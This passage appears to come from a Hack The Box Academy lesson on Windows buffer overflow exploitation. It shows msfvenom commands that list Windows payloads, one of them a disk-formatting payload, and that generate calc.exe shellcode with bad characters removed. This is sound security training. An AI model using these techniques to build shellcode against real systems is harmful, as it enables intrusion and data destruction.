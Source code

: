 The final step is to write some shellcode on the stack that gets executed when the Return Addresses we found earlier are executed since we look for addresses of instructions that execute the code written on the top of the stack.

### Shellcode Generation

We've thoroughly discussed shellcode generation in the [Intro to Assembly Language](https://academy.hackthebox.com/course/preview/intro-to-assembly-language) module and the various methods to do so. In some instances, we may find ourselves limited to a very short buffer space, where we would not have many bytes to write to and may have to use one of the methods discussed to generate a short shellcode. However, we are dealing with thousands of bytes of buffer in our case, so we would not have to worry about such limitations.

So, to generate our shellcode, we will use `msfvenom`, which can generate shellcodes for Windows systems, while tools like `pwntools` currently only support Linux shellcodes.

First, we can list all available payloads for `Windows 32-bit`, as follows:

Jumping to Shellcode

```bash
mdn0x@htb[/htb]$ msfvenom -l payloads | grep windows

...SNIP...
    windows/exec                                        Execute an arbitrary command
    windows/format_all_drives                           This payload formats all mounted disks in Windows (aka ShellcodeOfDeath). After formatting, this payload sets the volume label to the string specified in the VOLUMELABEL option. If the code is unable to access a drive for
    windows/loadlibrary                                 Load an arbitrary library path
    windows/messagebox                                  Spawns a dialog via MessageBox using a customizable title, text & icon
...SNIP...
```

For initial testing, let's try `windows/exec` and execute `calc.exe` to open the Windows calculator if our exploit is successful. To do this, we'll use `CMD=calc.exe`, `-f 'python'` since we are using a python exploit, and `-b` to specify any bad characters:

Jumping to Shellcode

```bash
mdn0x@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x31\x31\x50\x18\x03\x50\x18\x83\xc0\x39\x29"
buf += b"\x6b\xd4\xa9\x2f\x94\x25\x29\x50\x1c\xc0\x18\x50\x7a"
...SNIP...
```

Note: We used the `-b` to showcase how to eliminate any bad characters from our shellcode, where we can add all bad characters we need to eliminate (e.g. `'\x00\x0a\x0d'`). Even if our shellcode did not have any bad characters, this shellcode should still run, though the final shellcode is usually longer if we specify bad characters
